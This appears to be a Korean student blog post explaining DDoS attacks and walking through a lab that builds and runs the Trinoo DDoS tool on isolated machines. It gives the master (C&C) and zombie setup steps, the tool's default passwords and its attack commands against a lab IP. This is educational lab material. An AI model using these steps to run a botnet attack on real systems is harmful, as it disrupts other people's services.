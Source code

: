 ```yaml
---
title:  "DDOS" 

categories:
  - dos
tags:
  - [ddos]

toc: true

date: 2022-10-04
last_modified_at: 2022-10-04
---
```


## DDOS

- DDoS (Distribution Denial of Service)

  - 분산 서비스 거부 공격

  - DoS 공격의 발전 형태

  - 공격 시스템을 여러 대로 분산 배치하여 대량의 트래픽으로 공격대상의 서비스를 마비시키는 공격

    > 악성코드 등을 이용하여 Zombie PC를 획득하여 C&C서버를 통해 공격 명령을 내림

  - 기본적으로 공격의 형태가 (1 → N) vs 1

    > (공격자(1) → 좀비PC(N)) vs 공격대상(1)

- 공격 방식
  - 물리적인 파괴
  - 시스템 리소스 공격 → CPU, Memory, Disk, 특정 Application ...
  - 네트워크 대역폭 공격 → 대역폭 고갈

- 실습

  - 구성도

    ![화면 캡처 2022-10-06 174531](../../assets/img/화면 캡처 2022-10-06 174531-1665051434069-25.png)

  - Master, agent 에서 gcc 설치

    ```
    # yum -y install gcc
    ```

  - master(C&C)에서 설정

    ```
    # gcc
    ```

    ![화면 캡처 2022-10-06 191936](../../assets/img/화면 캡처 2022-10-06 191936.png)

    ```
    [root@localhost ~]# cd ./master
    [root@localhost master]# make
    ```

    ![화면 캡처 2022-10-06 192623](../../assets/img/화면 캡처 2022-10-06 192623.png)

    ```
    [root@localhost master]# ls
    ```

    ![화면 캡처 2022-10-06 192705](../../assets/img/화면 캡처 2022-10-06 192705-1665053340686-30.png)

  - agent(zombie)에서 설정

    ```
    [root@localhost ~]# cd daemon/
    [root@localhost daemon]# ls
    ```

    ![fdsafs](../../assets/img/fdsafs.png)

    ```
    C&C 서버의 주소를 입력
    [root@localhost daemon]# vi ns.c
    ```

    ![화면 캡처 2022-10-06 192924](../../assets/img/화면 캡처 2022-10-06 192924.png)

    ```
    실행 파일 컴파일을 위해서 master 디렉터리의 내용을 복사
    [root@localhost daemon]# cp /root/master/* /root/daemon/
    [root@localhost daemon]# ls
    ```

    ![화면 캡처 2022-10-06 193135](../../assets/img/화면 캡처 2022-10-06 193135.png)

    ```
    파일 수정
    [root@localhost daemon]# vim Makefile
    ```

    ![화면 캡처 2022-10-06 194016](../../assets/img/화면 캡처 2022-10-06 194016.png)

    ```
    컴파일 수행
    [root@localhost daemon]# make
    ```

    ![화면 캡처 2022-10-06 194158](../../assets/img/화면 캡처 2022-10-06 194158.png)

    ![화면 캡처 2022-10-06 194214](../../assets/img/화면 캡처 2022-10-06 194214.png)

  - master(C&C) 설정

    ```
    [root@localhost master]# ./master 
    ?? gOrave (대문자 O)
    ```

    ![화면 캡처 2022-10-06 194241](../../assets/img/화면 캡처 2022-10-06 194241.png)

    ```
    포트 번호 확인
    [root@localhost master]# netstat -antup | grep master
    ```

    ![화면 캡처 2022-10-06 194451](../../assets/img/화면 캡처 2022-10-06 194451.png)

  - agent(zombie) 

    ```
    master 에 연결
    [root@localhost daemon]# ./daemon
    [root@localhost daemon]# netstat -antup | grep daemon
    ```

    ![화면 캡처 2022-10-06 194547](../../assets/img/화면 캡처 2022-10-06 194547.png)

  - kali (attacker)에서 공격수행

    ```
    └─# telnet 172.16.0.111 27665
    ```

    ![vcxzvczxvcz](../../assets/img/vcxzvczxvcz.png)

    ```
    betaalmostdone 입력
    ```

    ![화면 캡처 2022-10-06 201435](../../assets/img/화면 캡처 2022-10-06 201435.png)

    ```
    정보확인
    trinoo> info
    ```

    ![화면 캡처 2022-10-06 194630](../../assets/img/화면 캡처 2022-10-06 194630.png)

    ```
    현재 연결된 agent 목록
    trinoo> bcast
    ```

    ![화면 캡처 2022-10-06 194700](../../assets/img/화면 캡처 2022-10-06 194700.png)

    ```
    공격
    trinoo> dos 172.16.0.100(xp)
    ```

  - 와이어샤크 확인

    > kali(attacker)

    ![화면 캡처 2022-10-06 200930](../../assets/img/화면 캡처 2022-10-06 200930.png)

    > xp (victim)

    ![화면 캡처 2022-10-06 200737](../../assets/img/화면 캡처 2022-10-06 200737.png)